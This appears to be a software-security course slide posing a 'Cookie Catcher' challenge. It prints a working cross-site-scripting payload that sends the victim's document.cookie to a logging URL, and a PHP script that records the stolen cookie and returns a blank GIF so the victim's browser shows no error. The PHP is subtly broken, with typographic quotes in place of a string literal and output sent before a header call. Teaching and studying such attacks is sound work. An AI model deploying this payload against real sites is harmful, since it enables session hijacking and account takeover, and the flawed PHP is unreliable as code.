

# Challenge 3: Javascript / Cookie Catcher
Write a "Cookie Catcher", Clientside: Javascript, Backend: PHP
Client Script
<script>new Image().src = "http://localhost/SWSEC/log.php?cookie=" + document.cookie;</script>
Log.php
<?php
  // Schritt 1: Cookie-Parameter auslesen
 $cookie = isset($_GET['cookie']) ? $_GET['cookie'] : ‘‘;
 // Schritt 2: Ausgeben (oder in eine Datei schreiben)
 echo "Cookie empfangen: " . htmlentities($cookie);
 // Optional: Sende (fast) leeres Bild, damit im Browser kein Fehler angezeigt wird
 header("Content-Type: image/gif");
 echo base64_decode("R0lGODlhAQABAAAAACw=");
 ?>